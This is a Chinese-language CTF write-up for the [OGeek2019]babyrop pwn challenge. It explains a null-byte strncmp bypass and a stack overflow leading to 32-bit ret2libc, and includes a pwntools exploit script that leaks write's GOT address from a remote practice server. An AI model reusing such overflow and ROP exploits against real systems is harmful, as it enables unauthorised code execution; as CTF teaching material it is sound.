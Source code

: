 ### ctjx

1. recv 一定要设置正确！这道题recvline() , recv(8) 都不行
2. libc 版本一定要正确，要么用给的，要么就用libcseacher
3. "timeout: the monitored command dumped core" ：由于对齐原因，需要平衡栈，使用ret命令（1-15）次

## 0x06 [OGeek2019]babyrop
### ans ret2libc

首先是绕过验证：
```c++
  memset(&s, 0, 0x20u);
  memset(buf, 0, 0x20u);
  sprintf(&s, "%ld", a1);
  v6 = read(0, buf, 0x20u);
  buf[v6 - 1] = 0;
  v1 = strlen(buf);
  if ( strncmp(buf, &s, v1) )
    exit(0);
  write(1, "Correct\n", 8u);
  return v5;
```
strlen() 函数是通过 '\x00' 来判断字符串的结束的。  
所以把输入字符串的第一个字符写为 '\x00' 就可绕过验证。

```c++
 if ( a1 == 127 )
    result = read(0, &buf, 0xC8u);
  else
    result = read(0, &buf, a1); // 溢出点
```
这里的 a1 就是之前输入的 buf 的大小。  
我们希望它越大越好，这样才能造成溢出。  
所以输入为 '\x00' + '\xff' * 7


绕过验证后，就是32位下的ret2libc
1. write(1,write_addr,8)
2. system("/bin/sh")

### exp
```python
from pwn import *
context.log_level = "debug"

# io = process('./OGeek2019_babyrop')
io = remote('node3.buuoj.cn','29730')
e = ELF('./OGeek2019_babyrop')

write_plt = e.plt['write']
write_got = e.got['write']
main_addr = 0x8048825

payload = '\x00' + '\xff' * 7
io.sendline(payload)
payload = (0xE7 + 4) * 'a' +  p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(0x8)
io.sendlineafter("Correct\n",payload)


write_addr=u32(io.recv(4).strip().ljust(4, '\x00'))
success('write_addr: ' + hex(write_addr))

# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("./OGeek2019_babyrop.so")
```